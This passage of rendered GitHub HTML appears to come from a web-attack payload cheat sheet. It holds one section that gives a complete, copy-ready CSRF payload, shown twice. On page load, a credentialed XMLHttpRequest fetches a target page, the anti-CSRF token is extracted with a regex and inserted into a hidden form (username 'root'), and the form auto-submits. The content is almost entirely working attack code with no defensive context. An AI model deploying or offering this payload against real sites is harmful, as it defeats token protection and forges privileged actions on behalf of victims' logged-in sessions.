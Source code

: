 <h3 dir="auto"><a id="user-content-poststeal-csrf-token-with-ajax-and-send-a-post-with-a-form" class="anchor" aria-hidden="true" href="#poststeal-csrf-token-with-ajax-and-send-a-post-with-a-form"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>POSTSteal CSRF token with Ajax and send a post with a form</strong></h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;body onload="getData()"&gt;

&lt;form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data"&gt;
  &lt;input type="hidden" name="username" value="root"/&gt;
  &lt;input type="hidden" name="status" value="on"/&gt;
  &lt;input type="hidden" id="findtoken" name="token" value=""/&gt;
  &lt;input type="submit" value="valider"/&gt;
&lt;/form&gt;

&lt;script&gt;
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open("GET","http://google.com?param=VALUE",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("findtoken").value = token;
    document.getElementById("form").submit();
  }
}
&lt;/script&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<body onload=&quot;getData()&quot;>

<form id=&quot;form&quot; action=&quot;http://google.com?param=VALUE&quot; method=&quot;POST&quot; enctype=&quot;multipart/form-data&quot;>
  <input type=&quot;hidden&quot; name=&quot;username&quot; value=&quot;root&quot;/>
  <input type=&quot;hidden&quot; name=&quot;status&quot; value=&quot;on&quot;/>
  <input type=&quot;hidden&quot; id=&quot;findtoken&quot; name=&quot;token&quot; value=&quot;&quot;/>
  <input type=&quot;submit&quot; value=&quot;valider&quot;/>
</form>

<script>
var x = new XMLHttpRequest();
function getData() {
  x.withCredentials = true;
  x.open(&quot;GET&quot;,&quot;http://google.com?param=VALUE&quot;,true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name=&quot;token&quot; value=&quot;(.+)&quot;/)[1];
    document.getElementById(&quot;findtoken&quot;).value = token;
    document.getElementById(&quot;form&quot;).submit();
  }
}
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
